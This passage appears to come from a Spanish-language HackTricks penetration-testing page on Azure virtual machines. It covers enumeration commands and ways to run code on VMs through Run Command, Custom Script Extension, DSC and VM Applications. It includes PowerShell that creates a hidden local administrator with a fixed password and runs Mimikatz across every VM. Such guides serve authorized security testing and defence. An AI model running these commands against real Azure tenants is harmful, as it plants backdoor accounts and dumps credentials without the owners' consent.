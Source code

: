# Az - Máquinas Virtuales

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

Las máquinas virtuales de Azure son uno de varios tipos de recursos informáticos escalables bajo demanda que ofrece Azure. Por lo general, se elige una máquina virtual cuando se necesita más control sobre el entorno informático que las otras opciones ofrecen. Este artículo le proporciona información sobre lo que debe considerar antes de crear una máquina virtual, cómo crearla y cómo administrarla.

## Enumeración

```powershell
# Obtener VMs legibles
Get-AzVM | fl
# Listar VMs en ejecución
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Obtener interfaz y dirección IP
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

# Obtener extensiones instaladas
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Obtener el nombre del conector de red de la VM
Get-AzNetworkInterface -Name <name> # Obtener información del conector de red (como la IP)
```

## **Ejecutar comandos en una VM**

### **Comando Ejecutar**

```powershell
# El permiso que permite esto es Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Otra forma
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Contenido del script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Intentar ejecutar en todas las máquinas
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Extensión de script personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración posterior a la implementación y tareas de automatización en **VM de Azure**. Por ejemplo, si una máquina virtual requiere la instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puede usar una extensión de VM.

Por lo tanto, si tiene acceso para escribirlo, puede ejecutar código arbitrario:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** es similar a Ansible, pero es una herramienta dentro de PowerShell que permite configurar un host a través del código. DSC tiene su propia extensión en Azure que permite la carga de archivos de **configuración** de DSC. Los archivos de configuración de DSC son bastante quisquillosos en cuanto a la sintaxis, sin embargo, la extensión de DSC es muy crédula y ejecutará **ciegamente cualquier comando** siempre y cuando siga un cierto formato, como se muestra en la figura 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Esto se puede hacer a través de la función de PowerShell de **Az [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)**. La extensión de DSC requiere un archivo **.PS1** con una **función** y **empaquetado** en un archivo **.zip**. Dado que esto no es realmente la sintaxis correcta de DSC, el estado de la extensión se leerá como "fallido", sin embargo, el código se ejecutará. El problema con esto es que no hay salida del comando, ya que el estado se sobrescribe con el mensaje de falla.

### Definiciones de aplicaciones de VM

El recurso [Aplicaciones de VM](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) es una forma de **implementar aplicaciones versionadas de manera repetible** en una VM de Azure. Por ejemplo, si crea un **programa** y lo implementa en todas las VM de Azure como la versión 1.0, una vez que **actualice** el programa a la versión 1.1, puede usar la misma Aplicación de VM para **crear otra definición** y enviar la actualización a cualquier VM.\
Poder **enviar una aplicación** a una VM significa que es otra vía para la **ejec